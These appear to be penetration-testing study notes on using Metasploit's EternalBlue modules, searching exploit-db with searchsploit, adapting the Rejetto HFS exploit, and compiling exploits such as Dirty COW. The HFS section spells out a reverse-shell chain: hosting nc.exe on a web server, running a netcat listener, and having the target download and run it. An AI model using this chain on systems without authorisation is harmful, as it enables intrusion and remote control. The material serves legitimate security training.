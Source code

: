 - `msf6 > use auxiliary/scanner/smb/smb_ms17_010` - for scanning
- `msf6 > use exploit/windows/smb/ms17_010_eternalblue` - for exploiting

### Searching exploits

[exploit-db.com](http://exploit-db.com) - publicly available exploits

[rapid7.com/db](http://rapid7.com/db) - information about vulnerabilities

[packetstormsecurity.com](http://packetstormsecurity.com) 

```
site:exploit-db.com openssh 7.2 - using Google Dorks
site:github.com vsftpd 2.3.4 - Not too reliable (GitHub)
```

**Searchsploit**:

Offline Exploit-db database 

- `searchsploit vsftpd 2.3.4`
- `searchsploit -m <exploit.id>` - copies the exploit file (**mirroring**)
    - `searchsploit -m 49757` - for copying the vsftpd 2.3.4 backdoor exploit file
- `searchsploit -c OpenSSH` - **case** sensitive search
- `searchsploit -t openssh` - openssh in the **title**
- `searchsploit -e ‘Apache 2.4’` - **exact** search
- `searchsploit remote windows smb`
- `searchsploit vsftpd -w` - gives **URLs** not IDs

### Fixing Exploits

- `searchsploit hfs 2.3`
- `searchsploit -m 39161` - for copying (mirroring) rejetto 2.3 exploit file
- Changing `ip_addr` and `local_port` values inside of the file
- `cp /usr/share/windows-resources/binaries/nc.exe .`- we must host nc.exe for exploitation
- `python3 -m http.server 80` - we must host nc.exe for exploitation
- `nc -nlvp 1234`
- `python3 [39161.py](http://39161.py) <target> 80` - downloads nc.exe from our web server, and we get a reverse shell.

***If it doesn’t work, then we must run the exploit file again until it works.

### Compiling Exploits

Compiling is transforming source code (.c) to machine code (executable format - binary)

Cross-Compiling is the process of compiling code for a platform (WIndows).

We will compile code into a binary (Linux) or PE (Portable Executable for WIndows).

- `i686-w64-mingw32-gcc 9303.c -o vlc64.exe` - compiling for Windows for 64 bit machines
- `i686-w64-mingw32-gcc 9303.c -o vlc32.exe -lws2_32` - 32 bit compiling (windows)

- `gcc -pthread 40839.c -o dirtycow -lcrypt` - for Linux (.elf binary - Excutable and Linkable Format)
- `gcc exploit.c -o exploit` - More common
